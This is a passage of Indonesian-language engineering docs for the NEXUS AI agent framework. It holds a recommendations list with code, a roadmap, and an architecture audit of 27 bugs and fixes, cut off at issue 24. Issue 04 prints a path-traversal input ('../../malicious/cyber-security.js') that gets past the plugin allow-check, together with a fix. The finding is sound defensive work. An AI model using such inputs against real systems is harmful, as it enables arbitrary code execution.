Definisi "memory inti": pengalaman, dokumentasi, dan knowledge dari tiap sandbox tersimpan permanen dan dapat diakses untuk project berikutnya.

| Komponen | Status | Kondisi Aktual |
|---|---|---|
| Audit reports ke disk | ✅ Berjalan | `AuditPhase` menulis JSON ke `memory/raw/` |
| Plan ke disk | ✅ Berjalan | `PlanningPhase` menulis JSON + MD ke `planning/` |
| MemoryPipeline archiving | ✅ Berjalan | Archive audit/plan ke `memory/archived/` |
| Distiller standardization | ✅ Berjalan | Prefix NEXUS_ pada file HUB |
| KnowledgePhase harvest | ⚠️ Parsial | Berjalan hanya jika dipanggil eksplisit |
| Harvest source (sandbox docs) | ❌ Kosong | Sandbox 'crud' tidak menghasilkan docs |
| Redis vector memory | ❌ Tidak aktif | Service tidak ada di docker-compose |
| LLM semantic linking | ⚠️ Parsial | Berjalan tapi sumber data minimal |
| **Hasil Akhir** | ⚠️ **Parsial** | Metadata tersimpan, knowledge tidak tumbuh |

**Kesimpulan:** Memory pipeline sudah terstruktur dengan baik, tapi "pakan" (knowledge dari sandbox) tidak mengalir karena sandbox tidak menghasilkan dokumentasi dan harvest tidak dipanggil otomatis.

---

## 8. Rekomendasi Perbaikan Prioritas

### R-01: Implementasikan `spawnRealLaravel()` [KRITIS]
Ganti throw Error dengan implementasi nyata:

```javascript
async spawnRealLaravel(name) {
    await this.checkEvolutionBoundary();
    const targetPath = path.join(this.sandboxPath, name);
    
    // Step 1: composer create-project
    await this._spawn('composer', [
        'create-project', 'laravel/laravel', name, '--no-interaction'
    ], { cwd: this.sandboxPath, timeout: 300000 });

    // Step 2: Install TALL Stack
    await this._spawn('composer', [
        'require', 'livewire/livewire', 'laravel/sanctum'
    ], { cwd: targetPath, timeout: 120000 });

    // Step 3: Tailwind + Alpine via npm
    await this._spawn('npm', ['install'], { cwd: targetPath, timeout: 120000 });

    return targetPath;
}
```

### R-02: Tambah Post-Implementation Runner [KRITIS]
Di akhir `ImplementationPhase.run()`, tambahkan:

```javascript
async bootstrapApplication() {
    const root = this.engine.rootPath;
    
    await this._run('composer', ['install', '--no-interaction'], root);
    await this._run('php', ['artisan', 'key:generate', '--force'], root);
    await this._run('php', ['artisan', 'migrate', '--force', '--seed'], root);
    await this._run('npm', ['install'], root);
    await this._run('npm', ['run', 'build'], root);
    
    this.log('✅ Application bootstrapped and ready.', 'success');
}
```

### R-03: Tambah Redis ke `docker-compose.yml` [KRITIS]
```yaml
services:
  redis:
    image: redis:7-alpine
    container_name: nexus_redis
    restart: unless-stopped
    networks:
      - nexus-internal
    volumes:
      - redis_data:/data

  nexus-ai:
    # ...existing config...
    depends_on:
      - redis
    environment:
      - REDIS_URL=redis://redis:6379

volumes:
  redis_data:
```

### R-04: Aktifkan `WorktreeManager` [KRITIS]
Ubah `isActive = true` setelah menambahkan error handling:

```javascript
this.isActive = process.env.NEXUS_GIT_ISOLATION === 'true';
```

Dan tambahkan di `.env`:
```
NEXUS_GIT_ISOLATION=true
```

### R-05: Auto-Trigger KnowledgePhase Harvest [SEDANG]
Di `EvolutionPiper.harvestWisdom()`, setelah copy logs, tambahkan trigger:

```javascript
async harvestWisdom(name) {
    // ... existing harvest logic ...
    
    // Auto-trigger KnowledgePhase untuk internalisasi
    const knowledgePhase = new KnowledgePhase(this.engine);
    await knowledgePhase.harvest(targetPath);
    await knowledgePhase.run(); // distill ke HUB
    
    console.log(`✅ Knowledge from [${name}] internalized to NEXUS core memory.`);
}
```

### R-06: Implementasikan Sandbox Documentation Writer [SEDANG]
Di akhir setiap sandbox build, generate dokumentasi yang menjadi "pakan" harvest:

```javascript
async generateSandboxDocumentation(targetPath, buildResult) {
    const docsPath = path.join(targetPath, 'nexus', 'memory', 'operational');
    await fs.ensureDir(docsPath);
    
    const doc = `# Sandbox Build Report
**Project:** ${path.basename(targetPath)}
**Date:** ${new Date().toISOString()}
**Status:** ${buildResult.success ? 'SUCCESS' : 'FAILED'}

## Files Generated
${buildResult.files.map(f => `- ${f}`).join('\n')}

## Lessons Learned
${buildResult.lessons.join('\n')}
`;
    await fs.writeFile(path.join(docsPath, 'BUILD_REPORT.md'), doc);
}
```

### R-07: Mount Native Binary di Docker [MINOR]
Tambahkan ke `docker-compose.yml`:
```yaml
volumes:
  - ./nexus/native:/app/nexus/native
```

### R-08: Perluas `NexusError` dengan Error Codes [MINOR]
```javascript
class NexusError extends Error {
    constructor(domain, message, code = 'NEXUS_UNKNOWN') {
        super(`[${domain}] ${message}`);
        this.code = code;
        this.domain = domain;
        this.timestamp = new Date().toISOString();
    }
}

// Usage:
throw new NexusError('EXECUTION', 'Binary not found', 'NEXUS_E001_BINARY_NOT_FOUND');
```

---

## 9. Peta Jalan (Roadmap)

### Fase A — Foundation Fix (1-2 minggu)
Fokus: Pipeline menghasilkan aplikasi yang bisa dibuka di browser.

1. Implementasikan `spawnRealLaravel()` dengan composer
2. Tambahkan `bootstrapApplication()` di akhir ImplementationPhase
3. Fix `docker-compose.yml` (Redis + volume native)
4. Aktifkan `WorktreeManager` via env flag

**Kriteria sukses:** `nexus run` → `php artisan serve` → browser menampilkan halaman Laravel

### Fase B — Knowledge Loop (2-3 minggu)
Fokus: Setiap sandbox build memperkaya memory inti NEXUS.

1. Implementasikan Sandbox Documentation Writer
2. Auto-trigger KnowledgePhase.harvest() di akhir setiap sandbox
3. Sambungkan Redis sebagai vector store yang aktif
4. Verifikasi distiller berjalan setelah setiap harvest

**Kriteria sukses:** Setelah 3 sandbox selesai, `memory/distilled/` memiliki knowledge yang terstruktur dari ketiga project

### Fase C — Quality & Scale (3-4 minggu)
Fokus: Stabilitas untuk 100 project target.

1. Implementasikan atomic Redis counter untuk EvolutionPiper
2. Implementasikan chunking untuk prompt >30KB
3. Perluas NexusError dengan error codes
4. Tambahkan health-check startup (python, C++, Redis, Ollama)
5. Implementasikan ConcurrencyGovernor global

**Kriteria sukses:** `nexus run` berhasil pada 10 project berturut-turut tanpa crash atau data corruption

---

*Dokumen ini dihasilkan berdasarkan analisis source code langsung dari file: `NexusEngine.js`, `Orchestrator.js`, `EvolutionPiper.js`, `Distiller.js`, `NativeBridge.js`, `SandboxExecutor.js`, `LocalIntelligence.js`, `WorktreeManager.js`, `MemoryPipeline.js`, `KnowledgePhase.js`, `ExecutionPhase.js`, `ImplementationPhase.js`, `PlanningPhase.js`, `AuditPhase.js`, `docker-compose.yml`, `package.json`.*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, vcs, api]

### 📘 KNOWLEDGE: NEXUS_AI_ARCHITECTURE_AUDIT.MD

# NEXUS AI — Architecture Audit Report
> **VERSION**: v1 | **Last Updated**: 26/05/2026


**Version:** 3.3.0  
**Auditor:** AI Engineering Review  
**Tanggal:** 16 Mei 2026  
**Cakupan:** Seluruh `agent/core/`, `agent/phases/`, `agent/tools/`, `agent/main.js`, `.github/`, `.env`

---

## Ringkasan Eksekutif

Proyek NEXUS AI memiliki fondasi arsitektur yang solid: EventBus schema-validated, Dead Letter Queue di Orchestrator, guardrail whitelist di LocalIntelligence, versioned write di MemoryPipeline, dan circuit-aware ResourceMonitor. Namun setelah audit menyeluruh terhadap **27 file core**, ditemukan **27 isu** yang terdiri dari bug aktif, potensi crash, celah keamanan, dan technical debt yang perlu diselesaikan sebelum roadmap 100-project dapat berjalan stabil.

---

## Indeks Isu

| No | Komponen | Kategori | Severity |
|----|----------|----------|----------|
| 01 | `LocalIntelligence` | Prompt OOM | 🔴 Critical |
| 02 | `Orchestrator.executeTask` | Hanging Promise | 🔴 Critical |
| 03 | `NativeBridge` | Cross-platform | 🔴 Critical |
| 04 | `SandboxExecutor` | Security | 🔴 Critical |
| 05 | `RedisMemory` | Data Loss | 🔴 Critical |
| 06 | `Logger` | Data Corruption | 🔴 Critical |
| 07 | `NexusEngine` | God Object | 🟠 High |
| 08 | `LocalIntelligence` | Race Condition | 🟠 High |
| 09 | Ollama / LocalIntelligence | No Circuit Breaker | 🟠 High |
| 10 | `EventBus` | Memory Leak | 🟠 High |
| 11 | `AgentRegistry` | Not Wired | 🟠 High |
| 12 | `EvolutionPiper` | State Lost on Crash | 🟠 High |
| 13 | `WorktreeManager` | Blocking Event Loop | 🟠 High |
| 14 | `AuditPhase` | No Concurrency Limit | 🟠 High |
| 15 | `SemanticEngine` | NaN Corruption | 🟠 High |
| 16 | `RedisMemory` | Lazy Connect Bug | 🟠 High |
| 17 | `NexusEngine.runCycle` | No Global Timeout | 🟡 Medium |
| 18 | `EventBus` | Aggressive Dedup | 🟡 Medium |
| 19 | `MemoryPipeline` vs `SemanticEngine` | Duplicate Index | 🟡 Medium |
| 20 | `MemoryGovernor` vs `MemoryPipeline` | Overlapping Ownership | 🟡 Medium |
| 21 | `Contract.js` | Timestamp Inconsistency | 🟡 Medium |
| 22 | `ExecutionPhase` | Hardcoded Legacy Patterns | 🟡 Medium |
| 23 | `main.js` | Duplicate Orchestrator | 🟡 Medium |
| 24 | `EvolutionPiper.spawnRealLaravel` | Dead Code | 🟡 Medium |
| 25 | `Distiller` | Unused NativeBridge Instance | 🟡 Medium |
| 26 | `ExecutionPhase.getAvailablePort` | Unbounded Recursion | 🟡 Medium |
| 27 | `ci.yml` + `.env` | Security & CI Gap | 🟡 Medium |

---

## Detail Isu

---

### 🔴 01 — Prompt Files ~2MB Per File → OOM pada 7B Model

**File:** `agent/prompts/internal/guru.md`, `orchestrator.md`, `pipeline-architect.md`  
**Ukuran:** Masing-masing ~2MB  

**Masalah:**  
`LocalIntelligence.generate()` menggunakan `num_ctx: 4096` token dan model `qwen2.5-coder:7b-instruct-q4_K_M`. Prompt 2MB setara ±500k token — jauh melampaui context window. Ollama akan truncate atau crash dengan OOM. Pada mesin 8GB RAM yang dishare dengan Vega 8, ini hampir pasti fatal.

**Dampak:** Engine crash sebelum menghasilkan output apapun.

**Solusi:**
```
agent/prompts/internal/orchestrator/
  ├── core.md          (~30KB - instruksi inti + persona)
  ├── planning.md      (~20KB - hanya diload saat fase planning)
  ├── execution.md     (~20KB - hanya diload saat fase execution)
  └── recovery.md      (~10KB - error handling)
```

Di `LocalIntelligence.generate()`, pilih sub-prompt berdasarkan `taskType`, bukan satu file monolitik.

---

### 🔴 02 — `Orchestrator.executeTask`: Promise Tanpa Timeout → Hanging Forever

**File:** `agent/core/Orchestrator.js`  

**Masalah:**
```js
return new Promise((resolve, reject) => {
    EventBus.subscribe('SCANNER_FINISHED', onFinished);
    EventBus.subscribe('TASK_FAILED', onFailed);
    EventBus.publish('SCANNER_TRIGGERED', { ... });
    // ⚠️ Jika event tidak pernah fire → Promise nangkring selamanya
    // Tidak ada setTimeout, tidak ada cleanup
});
```

Jika Ollama crash atau plugin exit tanpa mengirim pesan, Promise tidak pernah resolve/reject. Ini menyebabkan `AuditPhase.run()` hang selamanya dan seluruh cycle tidak pernah selesai.

**Dampak:** Engine deadlock permanen.

**Solusi:**
```js
const timeout = setTimeout(() => {
    EventBus.unsubscribe('SCANNER_FINISHED', onFinished);
    EventBus.unsubscribe('TASK_FAILED', onFailed);
    reject(new Error(`Task ${taskId} timed out after ${task.timeout_ms}ms`));
}, task.timeout_ms || 30000);

// Tambahkan clearTimeout(timeout) di onFinished dan onFailed
```

---

### 🔴 03 — `NativeBridge.callCpp`: Hardcode `.exe` → Gagal di Docker/Linux

**File:** `agent/core/NativeBridge.js`

**Masalah:**
```js
const fullPath = path.join(this.binPath,
    binaryName.endsWith('.exe') ? binaryName : `${binaryName}.exe`
);
```

`docker-compose.yml` ada di repo, artinya proyek ini dirancang untuk jalan di Linux container. Tapi `NativeBridge` selalu mencari `.exe` — binary Linux tidak punya extension ini. Setiap panggilan ke C++ module akan throw `binary not found`.

**Dampak:** Seluruh NativeBridge layer non-functional di Docker.

**Solusi:**
```js
const ext = process.platform === 'win32' ? '.exe' : '';
const fullPath = path.join(this.binPath, `${binaryName}${ext}`);
```

Tambahkan juga timeout untuk spawn process agar tidak hang:
```js
const timer = setTimeout(() => { proc.kill(); reject(new Error('C++ timeout')); }, 60000);
proc.on('close', () => clearTimeout(timer));
```

---

### 🔴 04 — `SandboxExecutor`: Path Traversal via Substring Check

**File:** `agent/core/SandboxExecutor.js`

**Masalah:**
```js
const isAllowed = manifest.scanners.some(s => pluginPath.includes(s.entrypoint));
```

Pengecekan ini adalah **substring match**, bukan path normalization. Path berikut akan **lolos** validasi:
```
../../malicious/cyber-security.js   ← includes "cyber-security.js" ✓ (SALAH LOLOS)
```

Selain itu, manifest dibaca dengan `readJsonSync` di dalam Promise — memblok event loop.

**Dampak:** Arbitrary code execution jika attacker bisa memanipulasi `pluginPath`.

**Solusi:**
```js
const allowedDir = path.resolve(path.join(__dirname, '..', 'tools', 'scanners'));
const resolvedPlugin = path.resolve(pluginPath);

if (!resolvedPlugin.startsWith(allowedDir)) {
    return reject(new Error(`SandboxExecutor: Plugin path not in allowed directory`));
}

// Gunakan fs.readJson async
const manifest = await fs.readJson(manifestPath);
const isAllowed = manifest.scanners.some(s =>
    resolvedPlugin === path.resolve(path.join(allowedDir, s.entrypoint))
);
```

---

### 🔴 05 — `RedisMemory.flush()` Memanggil `flushAll()` → Menghapus Seluruh Redis

**File:** `agent/core/RedisMemory.js`

**Masalah:**
```js
async flush() {
    if (!this.isConnected) return;
    await this.client.flushAll();  // ⚠️ Hapus SEMUA data di Redis
}
```

`flushAll()` menghapus **semua database** di Redis server, bukan hanya key milik NEXUS. Jika Redis dishare dengan Laravel app (sessions, cache, queue), maka saat `nexus distill` dipanggil, seluruh data Laravel ikut terhapus — termasuk user sessions yang aktif.

**Dampak:** Data loss pada aplikasi lain yang berbagi Redis server.

**Solusi:** Gunakan namespace prefix dan hapus hanya key NEXUS:
```js
const NEXUS_PREFIX = 'nexus:';

async flush() {
    if (!this.isConnected) return;
    const keys = await this.client.keys(`${NEXUS_PREFIX}*`);
    if (keys.length > 0) {
        await this.client.del(keys);
    }
}

async set(key, value, expirySeconds = 3600) {
    const namespacedKey = `${NEXUS_PREFIX}${key}`;
    // ... gunakan namespacedKey
}
```

---

### 🔴 06 — `Logger._writeQueue` Dideklarasikan Tapi Tidak Digunakan → Race Condition

**File:** `agent/core/Logger.js`

**Masalah:**
```js
constructor(rootPath) {
    // ...
    this._writeQueue = Promise.resolve(); // ← dideklarasikan
}

async log(...) {
    // ...
    await fs.appendFile(logFile, JSON.stringify(logEntry) + '\n'); // ← tidak melalui _writeQueue
}
```

`this._writeQueue` ada tapi tidak pernah digunakan. Dengan 6 specialist agent berjalan paralel, semuanya bisa `appendFile` ke file `.ndjson` yang sama secara bersamaan. Di Node.js, concurrent `appendFile` ke file yang sama **tidak atomic** — baris JSON bisa terinterleave menghasilkan log yang corrupt.

**Dampak:** Log file corrupt, audit trail tidak dapat diandalkan.

**Solusi:**
```js
async log(...args) {
    this._writeQueue = this._writeQueue.then(() => this._doLog(...args));
    return this._writeQueue;
}

async _doLog(category, level, agent, task_id, event, message, ...) {
    // ... logika appendFile yang sudah ada
}
```

---

### 🟠 07 — `NexusEngine` adalah God Object: 20+ Dependency di Constructor

**File:** `agent/core/NexusEngine.js`

**Masalah:**
Constructor langsung menginstansiasi: `Modifier`, `MemoryPipeline`, `TDDGuard`, `TDDScaffolder`, `AssetEngine`, `Validator`, `BugHunter`, `Designer`, `AccessibilityScanner`, `SchemaGuard`, `QueryOptimizer`, `WorktreeManager`, `RootCauseAnalyzer`, `Machinist`, `Distiller`, `EvolutionPiper`, `DecisionEngine`, `ParallelRunner`, `NativeBridge`, `Orchestrator`, `ResourceMonitor`. Semua diinstansiasi tanpa kondisi, bahkan yang jarang dipakai.

**Dampak:** Memory overhead tinggi sejak startup; unit testing hampir mustahil tanpa mocking seluruh tree.

**Solusi:** Lazy initialization untuk komponen jarang dipakai:
```js
// Ganti: this.designer = new Designer();
get designer() {
    if (!this._designer) this._designer = new Designer();
    return this._designer;
}

// Komponen yang perlu lazy: NativeBridge, Designer, AccessibilityScanner,
// QueryOptimizer, WorktreeManager, EvolutionPiper
```

---

### 🟠 08 — `LocalIntelligence` Singleton dengan `isAvailable` Mutable → Race Condition

**File:** `agent/core/LocalIntelligence.js`

**Masalah:**
```js
module.exports = new LocalIntelligence(); // ← singleton
// this.isAvailable = false (mutable state)
```

Dengan `ParallelRunner` limit=3, tiga concurrent task bisa memanggil `generate()` bersamaan. Semua berbagi `this.isAvailable` yang sama — satu goroutine bisa mengubahnya di tengah pengecekan goroutine lain.

**Dampak:** Task bisa melewati pengecekan availability lalu fail di tengah jalan.

**Solusi:** Caching TTL untuk availability check:
```js
this._availabilityCache = { value: false, expiresAt: 0 };

async checkAvailability() {
    if (Date.now() < this._availabilityCache.expiresAt) {
        return this._availabilityCache.value;
    }
    try {
        // ... actual check
        this._availabilityCache = { value: true, expiresAt: Date.now() + 60000 };
        return true;
    } catch {
        this._availabilityCache = { value: false, expiresAt: Date.now() + 10000 };
        return false;
    }
}
```

---

### 🟠 09 — Ollama Tanpa Circuit Breaker → Death Spiral saat Overload

**File:** `agent/core/LocalIntelligence.js`

**Masalah:**
Tidak ada circuit breaker. Jika Ollama overload atau crash, tiap `generate()` menunggu hingga timeout, kemudian retry. Dengan 3 concurrent workers × 3 retry = 9 request menumpuk. CPU + RAM meledak.

**Dampak:** Cascade failure seluruh engine saat model overload.

**Solusi — State machine sederhana:**
```js
this.cb = { state: 'CLOSED', failures: 0, openedAt: null };

async generate(prompt, taskType) {
    if (this.cb.state === 'OPEN') {
        if (Date.now() - this.cb.openedAt < 30000) return null; // fail fast
        this.cb.state = 'HALF-OPEN';
    }
    try {
        const result = await this._doGenerate(prompt, taskType);
        this.cb = { state: 'CLOSED', failures: 0, openedAt: null };
        return result;
    } catch (e) {
        this.cb.failures++;
        this.cb.openedAt = Date.now();
        if (this.cb.failures >= 3) this.cb.state = 'OPEN';
        return null;
    }
}
```

---

### 🟠 10 — `EventBus`: Subscription Listener Tidak Pernah Dibersihkan → Memory Leak

**File:** `agent/core/EventBus.js`, `agent/core/Orchestrator.js`

**Masalah:**
`setupEventHandlers()` di Orchestrator mendaftarkan listener permanent untuk `SCANNER_TRIGGERED`, `TASK_FAILED`, dan `CYCLE_FINISHED`. Listener ini tidak pernah dihapus. Di lingkungan long-running (100 project cycle), listener menumpuk di EventEmitter.

`setMaxListeners(50)` hanya menekan warning, bukan solusi kebocoran.

**Dampak:** Memory leak progresif; performa menurun setelah banyak cycle.

**Solusi:** Tracking listener dan cleanup method:
```js
this._handlers = [];

_subscribe(event, fn) {
    EventBus.subscribe(event, fn);
    this._handlers.push({ event, fn });
}

destroy() {
    this._handlers.forEach(({ event, fn }) => EventBus.unsubscribe(event, fn));
    this._handlers = [];
}
```

---

### 🟠 11 — `AgentRegistry` Tidak Terhubung ke `Orchestrator` → Selalu Kosong

**File:** `agent/core/AgentRegistry.js`, `agent/core/Orchestrator.js`

**Masalah:**
`AgentRegistry` menyediakan `markBusy()`, `markIdle()`, `markFailed()`, dan `getStuckAgents()`. Tapi di `Orchestrator.setupEventHandlers()`, tidak ada satu pun panggilan ke registry:
```js
// Orchestrator.js — TIDAK ada:
// agentRegistry.markBusy(agentId, taskId);
// agentRegistry.markIdle(agentId);
```

`NexusEngine.getSystemStatus()` memanggil `agentRegistry.getHealthReport()` tapi selalu menghasilkan `{ total: 0, idle: 0, busy: 0 }` karena tidak ada yang pernah mendaftar.

**Dampak:** Stuck agent detection tidak berfungsi. Monitoring buta.

**Solusi:** Tambahkan di dalam `SCANNER_TRIGGERED` handler:
```js
EventBus.subscribe('SCANNER_TRIGGERED', async (payload) => {
    agentRegistry.markBusy(payload.agent, taskId);
    // ... existing logic
});

// Setelah task selesai:
agentRegistry.markIdle(payload.agent);
// Jika fail:
agentRegistry.markFailed(payload.agent, err.message);
```

---

### 🟠 12 — `EvolutionPiper.currentCycle` In-Memory → Reset saat Crash

**File:** `agent/core/EvolutionPiper.js`

**Masalah:**
```js
this.currentCycle = 0; // hanya ada di memory
```

Jika engine crash di cycle ke-23, saat restart `currentCycle` kembali ke 0. Guardrail `MAX_EVOLUTION_CYCLES = 25` menjadi tidak efektif — sistem bisa menjalankan jauh lebih dari 25 cycle sebenarnya.

**Dampak:** Guardrail bypass; resource exhaustion tanpa batas.

**Solusi:** Persist counter ke disk:
```js
async loadCycleState() {
    const statePath = path.join(this.rootPath, 'nexus', '.evolution_state.json');
    if (await fs.pathExists(statePath)) {
        const state = await fs.readJson(statePath);
        this.currentCycle = state.currentCycle || 0;
        this.sessionStartTime = state.sessionStartTime || null;
    }
}

async persistCycleState() {
    const statePath = path.join(this.rootPath, 'nexus', '.evolution_state.json');
    await fs.writeJson(statePath, {
        currentCycle: this.currentCycle,
        sessionStartTime: this.sessionStartTime
    });
}
```

---

### 🟠 13 — `WorktreeManager.finalize()` Menggunakan `execSync` → Memblok Event Loop

**File:** `agent/core/WorktreeManager.js`

**Masalah:**
```js
execSync(`git checkout main && git merge feature/${featureName}`, { cwd: this.rootPath });
```

`execSync` memblok seluruh Node.js event loop. Jika git mengalami merge conflict, network issue, atau repository besar, seluruh engine freeze selama operasi berlangsung — tidak ada timeout, tidak ada escape.

**Dampak:** Engine freeze total selama git operations.

**Solusi:** Gunakan `spawn` dengan Promise wrapper (sudah ada pola ini di `NativeBridge`):
```js
const { spawn } = require('child_process');

async _execGit(args, cwd, timeoutMs = 30000) {
    return new Promise((resolve, reject) => {
        const proc = spawn('git', args, { cwd, shell: false });
        let out = '', err = '';
        const timer = setTimeout(() => { proc.kill(); reject(new Error('Git timeout')); }, timeoutMs);
        proc.stdout.on('data', d => out += d);
        proc.stderr.on('data', d => err += d);
        proc.on('close', code => {
            clearTimeout(timer);
            code === 0 ? resolve(out.trim()) : reject(new Error(err));
        });
    });
}
```

---

### 🟠 14 — `AuditPhase`: 6 Scanner Berjalan Bersamaan Tanpa Concurrency Limit

**File:** `agent/core/phases/AuditPhase.js`

**Masalah:**
```js
const auditPromises = specialists.map(async (spec) => {
    // Spawn Worker + Ollama call per specialist
});
await Promise.all(auditPromises); // 6 concurrent Workers + Ollama
```

Enam Workers berjalan sekaligus, masing-masing berpotensi memanggil Ollama. Pada 8GB RAM dengan Vega 8 shared, ini cukup untuk menyebabkan OOM killer melakukan terminasi proses.

**Dampak:** OOM kill di mesin dengan RAM terbatas.

**Solusi:** Gunakan `ParallelRunner` yang sudah ada:
```js
const results = await ParallelRunner.run(
    specialists,
    async (spec) => { /* ... logika audit */ },
    2  // max 2 concurrent scanner untuk 8GB RAM
);
```

---

### 🟠 15 — `SemanticEngine.cosineSimilarity`: Tidak Ada Zero-Norm Guard → NaN Corruption

**File:** `agent/core/SemanticEngine.js`

**Masalah:**
```js
cosineSimilarity(vecA, vecB) {
    // ...
    return dotProduct / (Math.sqrt(normA) * Math.sqrt(normB));
    // ⚠️ Jika normA atau normB = 0 → NaN
}
```

Jika embedding menghasilkan zero vector (model gagal, dokumen kosong), pembagian dengan 0 menghasilkan `NaN`. `NaN` kemudian menginfeksi seluruh hasil sort dan ranking.

**Dampak:** Semantic search mengembalikan urutan acak / undefined behavior.

**Solusi:**
```js
cosineSimilarity(vecA, vecB) {
    let dotProduct = 0, normA = 0, normB = 0;
    for (let i = 0; i < vecA.length; i++) {
        dotProduct += vecA[i] * vecB[i];
        normA += vecA[i] * vecA[i];
        normB += vecB[i] * vecB[i];
    }
    const denom = Math.sqrt(normA) * Math.sqrt(normB);
    if (denom === 0) return 0; // Zero vector = no similarity
    return dotProduct / denom;
}
```

---

### 🟠 16 — `RedisMemory`: `connect()` Tidak Dipanggil Sebelum `get()`/`set()`

**File:** `agent/core/RedisMemory.js`, `agent/core/SemanticEngine.js`

**Masalah:**
```js
// SemanticEngine.js
const cachedResults = await redis.get(cacheKey); // redis.isConnected = false
// → returns null, cache tidak pernah bekerja
```

`RedisMemory` hanya connect jika `connect()` dipanggil secara eksplisit. Tapi `SemanticEngine` dan komponen lain langsung memanggil `redis.get()` / `redis.set()` tanpa `await redis.connect()` terlebih dahulu. Hasilnya: Redis cache **tidak pernah berfungsi** meskipun kode seolah menggunakannya.

**Dampak:** Cache miss 100% → setiap search rebuild TF-IDF dari scratch.

**Solusi:** Auto-connect dengan lazy pattern:
```js
async _ensureConnected() {
    if (!this.isConnected) await this.connect();
}

async get(key) {
    await this._ensureConnected();
    if (!this.isConnected) return null;
    // ...
}
```

---

### 🟡 17 — `NexusEngine.runCycle()`: Tidak Ada Global Timeout

**File:** `agent/core/NexusEngine.js`

**Masalah:**
`runCycle()` tidak memiliki batas waktu global. Jika fase audit, planning, atau execution hang (misalnya karena Ollama lambat), seluruh cycle berjalan tanpa henti.

**Solusi:**
```js
async runCycle(options = {}) {
    const CYCLE_TIMEOUT_MS = 10 * 60 * 1000; // 10 menit
    const cyclePromise = this._doRunCycle(options);
    const timeoutPromise = new Promise((_, reject) =>
        setTimeout(() => reject(new NexusError('TIMEOUT', 'Cycle exceeded 10 minutes')), CYCLE_TIMEOUT_MS)
    );
    return Promise.race([cyclePromise, timeoutPromise]);
}
```

---

### 🟡 18 — `EventBus`: Deduplication 1 Detik Terlalu Agresif

**File:** `agent/core/EventBus.js`

**Masalah:**
```js
const eventKey = `${event}-${JSON.stringify(payload)}`;
if (this._recentEvents.has(eventKey)) return; // Drop!
```

Dua task berbeda yang menghasilkan payload identik dalam 1 detik akan di-drop satu di antaranya secara diam-diam. Kasus nyata: dua scanner mengirim `SCANNER_TRIGGERED` untuk file yang sama dalam waktu berdekatan.

**Solusi:** Dedup berdasarkan `task_id`, bukan seluruh payload:
```js
const eventKey = `${event}-${payload?.task_id || JSON.stringify(payload)}`;
```

---

### 🟡 19 — `MemoryPipeline.writeSemanticIndex()` Duplikat dengan `SemanticEngine`

**File:** `agent/core/MemoryPipeline.js`, `agent/core/SemanticEngine.js`

**Masalah:**
Dua sistem index berjalan paralel dan tidak terhubung:
- `MemoryPipeline.writeSemanticIndex()` → regex tag extraction → `semantic_tag_index.json`
- `SemanticEngine.buildIndex()` → TF-IDF + Ollama embeddings → `vector_index.json`

Keduanya menulis ke direktori `semantic/` yang sama dengan format berbeda. SemanticEngine yang digunakan aktif untuk search, sementara MemoryPipeline menghasilkan file yang tidak pernah dibaca.

**Solusi:** Hapus `writeSemanticIndex()` dari `MemoryPipeline`. Delegasikan sepenuhnya ke `SemanticEngine.buildIndex()`. Panggil dari `KnowledgePhase` setelah `memoryPipeline.optimize()` selesai.

---

### 🟡 20 — `MemoryGovernor` vs `MemoryPipeline`: Ownership Tumpang Tindih

**File:** `agent/core/MemoryGovernor.js`, `agent/core/MemoryPipeline.js`

**Masalah:**
Keduanya mengelola direktori `memory/` yang sama:
- `MemoryGovernor`: tulis ke `memory/[category]/`, acquire file lock, versioning
- `MemoryPipeline`: tulis ke `memory/distilled/`, `memory/archived/`, versioned write sendiri

Tidak ada batas kepemilikan yang jelas. `NexusEngine` menginstansiasi `MemoryPipeline` tapi `MemoryGovernor` diimport tapi tidak di-`new` secara eksplisit di constructor `NexusEngine` — kemungkinan besar unused instance.

**Solusi:** Tetapkan boundary yang jelas:
- `MemoryGovernor` → semua write ke `memory/` (owner tunggal, semua lewat sini)
- `MemoryPipeline` → orchestration logic (kapan archive, kapan distill), delegasikan write ke `MemoryGovernor`

---

### 🟡 21 — `Contract.js` Menggunakan `new Date()` Bukan `NexusClock`

**File:** `agent/core/Contract.js`

**Masalah:**
```js
class AuditReport {
    constructor(...) {
        this.timestamp = new Date().toISOString(); // ← UTC (Z suffix)
    }
}
```

`NexusClock` sudah dibuat untuk memastikan konsistensi timestamp UTC+8 di seluruh sistem, tapi `AuditReport` dan `ImplementationPlan` masih menggunakan `new Date().toISOString()` yang menghasilkan format `2026-05-16T07:00:00.000Z`. Hasilnya: timestamp di audit report bertentangan dengan timestamp di log file.

**Solusi:**
```js
const NexusClock = require('./NexusClock');

class AuditReport {
    constructor(...) {
        this.timestamp = NexusClock.getISOTimestamp();
    }
}
```

---

### 🟡 22 — `ExecutionPhase.cleanCodeAndVerify()`: Pola Legacy Hardcoded

**File:** `agent/core/phases/ExecutionPhase.js`

**Masalah:**
```js
const legacyPatterns = ['UrlShortener', 'UrlMapping', 'ShortenUrl', 'UrlController'];
```

Pola ini adalah sisa dari sandbox `url-shortener` yang dijadikan template. Ketika NEXUS dijalankan pada project lain (misal SaaS, e-commerce), fungsi ini akan:
1. Tidak menemukan apa-apa → silent no-op
2. Atau, jika project kebetulan punya class bernama serupa → menghapus file yang valid

**Solusi:** Bangun `legacyPatterns` secara dinamis dari `NEXUS_BLUEPRINT.json`:
```js
const blueprint = await fs.readJson(blueprintPath).catch(() => ({}));
const allowedComponents = (blueprint.livewire_components || []).map(c => this.toKebabCase(c));
const legacyPatterns = blueprint.legacy_patterns || [];
```

---

### 🟡 23 — `main.js` Membuat Dua Instance `Orchestrator` yang Berbeda

**File:** `agent/main.js`

**Masalah:**
```js
// main.js
const engine = new NexusEngine({ rootPath: ... });        // → this.orchestrator = new Orchestrator(...)
const orchestrator = new Orchestrator(path.resolve(...)); // ← Instance kedua, tidak pernah dipakai
```

`NexusEngine` sudah membuat instance `Orchestrator` internal. Instance kedua di `main.js` memiliki DLQ terpisah, EventBus listeners terpisah, dan tidak pernah digunakan. Ini membuang memori dan bisa menyebabkan dua listener `SCANNER_TRIGGERED` aktif sekaligus.

**Solusi:** Hapus baris `const orchestrator = new Orchestrator(...)` dari `main.js`. Gunakan `engine.orchestrator` jika perlu akses dari luar.

---

### 🟡 24 — `EvolutionPiper.spawnRealLaravel()`: Dead Code

**File:** `agent/core/EvolutionPiper.js`

**Masalah:**
```js
async spawnRealLaravel(name) {
    await this.checkEvolutionBoundary();
    const targetPath = path.join(this.sandboxPath, name);
    await fs.ensureDir(targetPath);
